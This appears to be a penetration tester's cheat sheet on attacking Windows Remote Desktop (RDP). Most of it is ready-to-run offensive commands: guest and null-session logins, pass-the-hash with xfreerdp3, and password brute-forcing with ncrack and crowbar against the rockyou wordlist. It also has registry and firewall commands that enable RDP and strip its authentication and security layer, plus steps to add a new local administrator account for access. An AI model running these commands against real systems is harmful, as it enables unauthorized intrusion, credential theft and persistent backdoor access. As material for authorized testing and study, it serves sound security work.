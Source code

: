 ### **Checks**

- [ ] Check if you can login with default guest account and blank password
- [ ] Check if you can brute force users
- [ ] Check for BlueKeep

### Operators Handbook pg 362
Pay attention to the possibility of adding a user via other vulnerability and accessing by RDP. [[Port 139 445 (Exploits)#MS17-010 method 2 RDP]]

 Run to get freerdp3 packages to use `xfreerdp3`
 ```bash
 sudo apt install freerdp3-dev
 sudo apt install freerdp3-x11
 ```

#### rdesktop Domain User:
```bash - kali
rdesktop -u $USER -p $PASSWORD -d $NETBIOS_DOMAIN_NAME -g 85% -r disk:share=/home/kali/Desktop/ $TARGET
```

#### rdesktop
```bash - kali
rdesktop $TARGET -u foobar -p Pass123 -g 1024x768 -x 0x80
```

Connect with share:
```bash - kali
rdesktop -u $USER -p $PASSWORD -g 85% -r disk:share=/home/kali/Desktop/ $TARGET
```

Guest login:
```bash - kali
rdesktop -u guest -p guest $TARGET -g 94%
```

#### xfreerdp Domain User:
```
/tls-seclevel:0 /timeout:80000
```

Connect with share:
```bash - kali
xfreerdp3 /u:$USER /p:$PASSWORD /v:TARGET +auto-reconnect /dynamic-resolution /drive:kali,/home/kali/Desktop/
```

```bash - kali
xfreerdp3 /u:$USER /p:$PASSWORD /d:$NETBIOS_DOMAIN_NAME /v:$TARGET +auto-reconnect /dynamic-resolution
```

```bash - kali
xfreerdp3 /u:$USER /pth:$HASH /d:$NetBIOS_Domain_Name /v:$TARGET +auto-reconnect /dynamic-resolution
```

#### xfreerdp3
```bash - kali
xfreerdp3 /v:$TARGET -sec-nla /u:"" +auto-reconnect /dynamic-resolution
```

```bash - kali
xfreerdp3 /u:$USER /p:$PASSWORD /cert:ignore /v:$TARGET +auto-reconnect /dynamic-resolution
```

```bash - kali
nmap -p 3389 --script=rdp-vuln-ms12-020.nse $TARGET
```

```bash - kali
ncrack -vv --user $USER -P /usr/share/wordlists/rockyou.txt rdp://$TARGET
```

```bash - kali
python crowbar.py -b rdp -s $TARGET/32 -u $USER -C ../rockyou.txt -v
```
### Enabling RDP
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```

```powershell - windows
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

```batch - windows
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0 /f
```

```batch - windows
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```

```batch - windows
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

```
netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```

```
sc start TermService
```

#### Add a new user to Admin, good for RDP
```batch - kali
net user foobar Pass123 /add
```

```batch - kali
net localgroup Administrators foobar /add
```

```batch - kali
sc config TermService start=auto
```

```batch - kali
net start TermService
```

```bash - kali
rdesktop -g 85% -r disk:share=/home/kali/Desktop/ -u foobar -p Pass123 $TARGET
```

#### We can use `--packet-trace` to track the individual packages and inspect their contents manually
```bash 
nmap -sV -sC $TARGET -p3389 --packet-trace --disable-arp-ping -n
```

A Perl script named [rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) has also been developed by [Cisco CX Security Labs](https://github.com/CiscoCXSecurity) that can unauthentically identify the security settings of RDP servers based on the handshakes.

To install:
```
sudo cpan 
```

Then type:
```
install Encoding::BER
```

```bash 
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
```

```
 ./rdp-sec-check.pl $TARGET
```


See also:
[[Crowbar]]